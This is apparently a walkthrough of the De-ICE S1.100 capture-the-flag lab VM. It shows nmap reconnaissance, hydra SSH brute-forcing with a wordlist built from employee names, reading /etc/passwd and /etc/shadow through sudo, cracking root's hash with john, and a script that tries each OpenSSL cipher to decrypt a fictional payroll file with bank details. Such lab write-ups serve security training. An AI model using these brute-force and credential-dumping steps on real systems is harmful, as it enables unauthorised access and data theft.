

# De-ICE: S1.100 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/de-ice-s1100,8/](https://www.vulnhub.com/entry/de-ice-s1100,8/)

> ## Scenario:  
> The scenario for this LiveCD is that a CEO of a small company has been pressured by the Board of Directors to have a penetration test done within the company. The CEO, believing his company is secure, feels this is a huge waste of money, especially since he already has a company scan their network for vulnerabilities (using nessus). To make the BoD happy, he decides to hire you for a 5-day job; and because he really doesn't believe the company is insecure, he has contracted you to look at only one server - a old system that only has a web-based list of the company's contact information.  
>
> The CEO expects you to prove that the admins of the box follow all proper accepted security practices, and that you will not be able to obtain access to the box. Prove to him that a full penetration test of their entire corporation would be the best way to ensure his company is actually following best security practices.  
> ## CONFIGURATION
>
> PenTest Lab Disk 1.100: This LiveCD is configured with an IP address of 192.168.1.100 - no additional configuration is necessary.

---

# Stage 0: Preparation

Since the IP address of the Boot2Root VM is a static IP address of 192.168.1.100/24, we will need to change our IP address to match the subnet

`ifconfig eth0 192.168.1.101 netmask 255.255.255.0`

---

# Stage 1: Reconnaissance

Tools used:
* nmap
* curl

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.100 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.100
Host is up (0.00044s latency).
Not shown: 992 filtered ports
PORT    STATE  SERVICE  VERSION
20/tcp  closed ftp-data
21/tcp  open   ftp      vsftpd (broken: could not bind listening IPv4 socket)
22/tcp  open   ssh      OpenSSH 4.3 (protocol 1.99)
25/tcp  open   smtp     Sendmail 8.13.7/8.13.7
80/tcp  open   http     Apache httpd 2.0.55 ((Unix) PHP/5.1.2)
110/tcp open   pop3     Openwall popa3d
143/tcp open   imap     UW imapd 2004.357
443/tcp closed https
MAC Address: 08:00:27:BD:09:C1 (Oracle VirtualBox virtual NIC)
Service Info: Host: slax.example.net; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds

root@kali:~# curl -s 192.168.1.100:21
500 OOPS: 
```

Interesting things to note is the vsftpd service showing `broken: could not bind listening IPv4 socket`.

---

# Stage 2: Enumeration

First thing I tried was to look for interesting details using `nikto` but there's nothing interesting there. Tried to enumerate a few other common pages but got nothing as well. There was the /level.php page that revealed a few hints:

```
SPOILER
Are you stuck? I have included the tools needed, and the order to use them, below. I have hidden them by matching the text color to the background.(Highlight white-space below each section to find the "hidden" answers.)

TOOLS REQUIRED (in order of use):
nmap
Firefox
ssh
hydra
john (the ripper)
openssl

OTHER HINTS
- Interns tend to know nothing of security
- The ftp server is broken; it's supposed to be
- Even though the ftp server is broken, there may be residual files of interest; read the /etc/passwd file first, though
- If you get the CEO's bank account information, you've defeated this challenge. Congratulations! 
```

The tools mentioned in the hint suggests that the method of entry is bruteforcing via SSH using `hydra` (or some other bruteforcing software like `patador`). You'll probably need to locate the CEO's bank account information, and use `john` to presumably crack the document (it makes sense that you would protect sensitive information like your bank account with a password). The encryption format is likely to be something related to `openssl` (maybe one of the cipher suites that `openssl` supports?).

---

# Stage 3: Exploitation

Tools used:
* hydra
* john
* openssl



Looking at the bottom of the page, I find a bunch of employees with their respective emails. Maybe we can use this information to create our wordlist for bruteforce.

Here is my wordlist:

```
root@kali:~# cat wordlist.dic 
herot
marym
patrickp
thompsont
benedictb
genniege
michaelp
longe
addamsa
banterb
coffeec
```

Then armed with my custom wordlist, I now proceed to launch `hydra`. Nothing came out of it. Baffled, I took another look at the hint.

```
- Interns tend to know nothing of security
```

Does this mean we should focus our attack at Bob Banter? Moving forward, I revised the wordlist:

```
root@kali:~# cat wordlist.dic 
banterb
bbanter
bobbanter
banterbob
bob
banter
```

And with that, let's re-run `hydra`:

```
root@kali:~# hydra -L wordlist.dic -P wordlist.dic ssh://192.168.1.100
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at xxxx-xx-xx xx:xx:xx
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 64 tasks, 36 login tries (l:6/p:6), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.100   login: bbanter   password: bbanter
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at xxxx-xx-xx xx:xx:xx
```

Success! Now we shall log in! Noticing that we're in `/home/bbanter`, let us first take a look at the permissions in `/home`:

```
bbanter@slax:~$ ls /home -l
total 0
drwxr-x--- 2 aadams  users 80 Jun 29  2007 aadams/
drwxr-x--- 2 bbanter users 80 Jun 29  2007 bbanter/
drwxr-x--- 2 ccoffee users 80 Jun 29  2007 ccoffee/
drwx------ 3 root    root  60 Jun 29  2007 ftp/
```

The ftp user's home directory is root-accessible only? I smell a fish.

```
bbanter@slax:~$ cat /etc/passwd 
root:x:0:0:DO NOT CHANGE PASSWORD - WILL BREAK FTP ENCRYPTION:/root:/bin/bash
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
adm:x:3:4:adm:/var/log:
lp:x:4:7:lp:/var/spool/lpd:
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/:
news:x:9:13:news:/usr/lib/news:
uucp:x:10:14:uucp:/var/spool/uucppublic:
operator:x:11:0:operator:/root:/bin/bash
games:x:12:100:games:/usr/games:
ftp:x:14:50::/home/ftp:
smmsp:x:25:25:smmsp:/var/spool/clientmqueue:
mysql:x:27:27:MySQL:/var/lib/mysql:/bin/bash
rpc:x:32:32:RPC portmap user:/:/bin/false
sshd:x:33:33:sshd:/:
gdm:x:42:42:GDM:/var/state/gdm:/bin/bash
pop:x:90:90:POP:/:
nobody:x:99:99:nobody:/:
aadams:x:1000:10:,,,:/home/aadams:/bin/bash
bbanter:x:1001:100:,,,:/home/bbanter:/bin/bash
ccoffee:x:1002:100:,,,:/home/ccoffee:/bin/bash
```

Dumping `/etc/passwd` tells us that the password of root is somehow being used for encrypting ftp's files or folders. It seems that aadams has a GID of `10`, which is the `wheel` group. Let us try to bruteforce SSH using `aadams` this time.

```
```

After what seems like a long time, we got the password for `aadams` which is `nostradamus`. Let us see what he is able to do.

```
aadams@slax:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password:
User aadams may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*

aadams@slax:~$ sudo ls /home/ftp/incoming
salary_dec2003.csv.enc

aadams@slax:~$ sudo cat /home/ftp/incoming/salary_dec2003.csv.enc > salary_dec2003.csv.enc
```

Since we're unable to `cp` the file out nor `su` to root, I had to use `cat` to make a local copy. The `.enc` format suggests that the file is encrypted with OpenSSL, but we don't know what cipher it is using.

Using `aadams` ability to dump the `/etc/shadow` file, I proceeded to use `john` with the `rockyou` wordlist.

```
root@kali:~# john hashes.txt --wordlist=rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
tarot            (root)
1g 0:00:00:07 DONE (xxxx-xx-xx xx:xx) 0.1410g/s 36533p/s 36533c/s 36533C/s tasing..tarot
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We now have the password for `root` which is `tarot`. We just need to find out what OpenSSL cipher the encrypted file is and we're done with the challenge!

```
root@kali:~# cat crack.sh 
#!/bin/bash

IN=salary_dec2003.csv.enc
OUT=salary_dec2003.csv
PASS=tarot
for cipher in `openssl list-cipher-commands 2>&1`; do
	openssl enc -$cipher -d -in $IN -k $PASS > /dev/null 2>&1
	if [[ $? -eq 0 ]]; then
		echo "SUCCESS! The cipher used is $cipher"
		openssl enc -$cipher -d -in $IN -out $OUT -k $PASS > /dev/null 2>&1
		break;
	fi
done
```

Here is the script I used to enumerate through the ciphers. Eventually we find out that the cipher used is `aes-128-cbc`.

```
,Employee information,,,,,,,,,,,,,,
,Employee ID,Name,Salary,Tax Status,Federal Allowance (From W-4),State Tax (Percentage),Federal Income Tax (Percentage based on Federal Allowance),So
cial Security Tax (Percentage),Medicare Tax (Percentage),Total Taxes Withheld (Percentage),"Insurance
Deduction
(Dollars)","Other Regular
Deduction
(Dollars)","Total Regular Deductions (Excluding taxes, in dollars)","Direct Deposit Info
Routing Number","Direct Deposit Info
Account Number"
,1,Charles E. Ophenia,"$225,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$360.00,$500.00,$860.00,183200299,1123245
,2,Marie Mary,"$56,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1192291
,3,Pat Patrick,"$43,350.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2334432
,4,Terry Thompson,"$27,500.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$225.00,$350.00,183200299,1278235
,5,Ben Benedict,"$29,750.00",1,3,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$122.50,$247.50,183200299,2332546
,6,Erin Gennieg,"$105,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1456567
,7,Paul Michael,"$76,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1446756
,8,Ester Long,"$92,500.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1776782
,9,Adam Adams,"$76,250.00",1,5,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2250900
,10,Chad Coffee,"$55,000.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1590264
,11,,,,,,,,,0.00%,,,$0.00,0,0
,12,,,,,,,,,0.00%,,,$0.00,0,0
,13,,,,,,,,,0.00%,,,$0.00,0,0
,14,,,,,,,,,0.00%,,,$0.00,0,0
,15,,,,,,,,,0.00%,,,$0.00,0,0
,16,,,,,,,,,0.00%,,,$0.00,0,0
,17,,,,,,,,,0.00%,,,$0.00,0,0
,18,,,,,,,,,0.00%,,,$0.00,0,0
,19,,,,,,,,,0.00%,,,$0.00,0,0
,20,,,,,,,,,0.00%,,,$0.00,0,0
,21,,,,,,,,,0.00%,,,$0.00,0,0
,22,,,,,,,,,0.00%,,,$0.00,0,0
,23,,,,,,,,,0.00%,,,$0.00,0,0
,24,,,,,,,,,0.00%,,,$0.00,0,0
,25,,,,,,,,,0.00%,,,$0.00,0,0
```

Challenge completed!